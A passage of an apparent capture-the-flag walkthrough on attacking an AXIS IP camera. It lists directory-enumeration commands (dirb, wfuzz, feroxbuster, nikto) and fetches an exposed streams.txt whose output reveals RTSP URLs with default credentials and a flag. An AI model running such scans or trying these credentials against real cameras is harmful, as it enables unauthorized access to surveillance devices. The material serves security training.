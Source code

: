 **Directory Analysis:**
- `/admin`: 401 status = requires authentication
- `/axis-cgi`: AXIS-specific CGI scripts (high priority)
- `/backup`: 200 status = publicly accessible (investigate!)
- `/cgi-bin`: Common CGI directory (command injection potential)
- `/config`: 403 forbidden (but confirms existence)
- `/streams.txt`: Likely contains RTSP URLs

#### Alternative Enumeration Tools

```bash
# Method 2: Dirb (automated recursion)
dirb http://192.168.1.132 /usr/share/wordlists/dirb/big.txt

# Method 3: Wfuzz (flexible and fast)
wfuzz -c -z file,/usr/share/wordlists/dirb/common.txt \
  --hc 404 http://192.168.1.132/FUZZ

# Method 4: Feroxbuster (Rust-based, very fast)
feroxbuster -u http://192.168.1.132 \
  -w /usr/share/seclists/Discovery/Web-Content/common.txt \
  -x php,txt,html

# Method 5: Nikto (vulnerability scanner)
nikto -h http://192.168.1.132 -o scans/nikto_report.txt
```

**Tool Comparison:**
| Tool | Speed | Recursion | Features | Best For |
|------|-------|-----------|----------|----------|
| Gobuster | Fast | Manual | Multi-threaded | Quick enumeration |
| Dirb | Moderate | Automatic | Simple | Set and forget |
| Wfuzz | Fast | Manual | Flexible filters | Custom fuzzing |
| Feroxbuster | Very Fast | Automatic | Modern | Large wordlists |
| Nikto | Slow | No | Vuln scanning | Finding known issues |

### Investigating Discovered Files

#### Checking streams.txt

```bash
# Download the streams configuration file
# Why: Stream URLs often contain credentials
curl -s http://192.168.1.132/streams.txt
```

**Expected Output:**
```
# AXIS Camera Stream Configuration
# WARNING: This file should not be publicly accessible!
# Generated: 2024-01-01 00:00:00
# 
# Available streams:
# Main Stream (High Quality)
rtsp://admin:admin@192.168.1.100:554/stream1

# Sub Stream (Low Quality) 
rtsp://root:pass@192.168.1.100:554/stream2?token=FLAG{SARUMAN83479324}

# Motion Detection Stream
rtsp://192.168.1.100:554/motion

# Audio Stream
```